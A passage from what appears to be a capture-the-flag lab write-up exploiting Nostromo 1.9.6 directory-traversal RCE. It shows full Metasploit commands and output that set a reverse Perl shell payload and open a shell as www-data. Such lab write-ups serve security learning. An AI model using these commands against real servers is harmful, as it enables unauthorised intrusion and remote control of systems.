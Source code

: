 This is what the web server looks like, nothing interesting can be gathered from here, no secret pages found with web fuzzing tools either:

![img](/images/writeup-traverxec/2.png)

---

## Exploitation: Nostromo 1.9.6 Directory Traversal Remote Command Execution

Not that we need any secret pages since there exist [RCE exploits](https://www.exploit-db.com/exploits/47573) for Nostromo 1.9.6:

```aaa
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > show options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)


msf5 exploit(multi/http/nostromo_code_exec) > set lhost 10.10.14.144
lhost => 10.10.14.144
msf5 exploit(multi/http/nostromo_code_exec) > set rhosts 10.10.10.165
rhosts => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.14.144:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.144:4444 -> 10.10.10.165:59074) at 2020-02-29 19:29:42 +0100

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```